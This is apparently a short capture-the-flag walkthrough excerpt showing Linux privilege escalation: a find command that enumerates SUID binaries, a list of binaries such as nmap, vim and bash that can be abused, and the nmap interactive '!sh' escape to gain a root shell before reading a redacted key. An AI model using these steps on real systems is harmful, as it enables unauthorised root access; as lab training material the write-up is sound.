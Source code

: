 ```(setuid enum)

	find / -perm -u=s -type f 2>/dev/null

```

 some of the existing binaries and utilities can be used to escalate privileges to root if they have the SUID permission. Known Linux executables that can allow privilege escalation are:

  -  Nmap
  - Vim
  - find
  - Bash
  - More
  - Less
  - Nano
  - cp

  Esclating priviledge :

  ```(nmap interactive)
	
	nmap --interactive
	nmap> !sh

  ```

  Bingo we have our root shell.

  Move to cd /root

'''
	Key 3: 047XXXXXXXXXXXXXXXXXXXXXXX
'''
